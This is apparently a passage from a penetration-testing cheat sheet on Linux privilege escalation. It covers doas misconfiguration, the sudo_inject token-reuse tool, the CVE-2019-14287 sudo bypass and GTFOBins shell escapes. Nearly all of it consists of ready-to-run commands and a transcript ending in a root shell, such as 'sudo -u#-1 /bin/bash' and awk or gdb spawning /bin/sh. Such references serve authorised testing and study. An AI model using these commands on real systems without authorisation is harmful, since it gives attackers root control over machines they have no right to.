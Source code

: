 ### Doas

There are some alternatives to the `sudo` binary such as `doas` for OpenBSD, remember to check its configuration at `/etc/doas.conf`

```bash
permit nopass demo as root cmd vim
```

### sudo_inject

Using [https://github.com/nongiach/sudo_inject](https://github.com/nongiach/sudo_inject)

```powershell
$ sudo whatever
[sudo] password for user:    
# Press <ctrl>+c since you don't have the password. 
# This creates an invalid sudo tokens.
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```

Slides of the presentation : [https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf](https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf)


### CVE-2019-14287

```powershell
# Exploitable when a user have the following permissions (sudo -l)
(ALL, !root) ALL

# If you have a full TTY, you can exploit it like this
sudo -u#-1 /bin/bash
```

## GTFOBins

[GTFOBins](https://gtfobins.github.io) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

> gdb -nx -ex '!sh' -ex quit    
> sudo mysql -e '\! /bin/sh'    
> strace -o /dev/null /bin/sh    
> sudo awk 'BEGIN {system("/bin/sh")}'


## Wildcard
